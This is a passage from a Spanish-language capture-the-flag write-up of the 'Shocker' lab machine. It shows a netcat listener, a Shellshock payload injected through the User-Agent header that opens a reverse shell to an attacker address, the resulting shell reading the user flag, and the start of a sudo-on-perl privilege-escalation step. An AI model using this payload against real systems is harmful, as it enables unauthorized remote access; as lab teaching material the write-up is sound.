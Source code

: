 <figure><img src="../../.gitbook/assets/4933_vmware_DKMYqW3eGe.png" alt=""><figcaption></figcaption></figure>

El siguiente paso, será lograr obtener una Reverse Shell para acceder al sistema. Nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Inyectaremos el siguiente código malicioso en el `User-Agent` para establecernos la Reverse Shell.

```bash
User-Agent: () { :; }; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.16.7/443 0>&1
```

<figure><img src="../../.gitbook/assets/4934_vmware_ERbzQkZKr1.png" alt=""><figcaption></figcaption></figure>

Verificaremos que logramos acceder al sistema y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.56] 42186
script /dev/null -c bash
Script started, file is /dev/null
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt 
2283b57fd1d3********************
```

## Privilege Escalation

### Abusing sudoers privilege (perl)

Revisaremos los grupos a los que forma parte el usuario `shelly`. Por otro lado, al verificar si disponíamos de permisos de `sudoers`, nos encontramos que tenemos la capacidad de ejecutar como `sudo` sin proporcionar credenciales el binario de `/usr/bin/perl`.
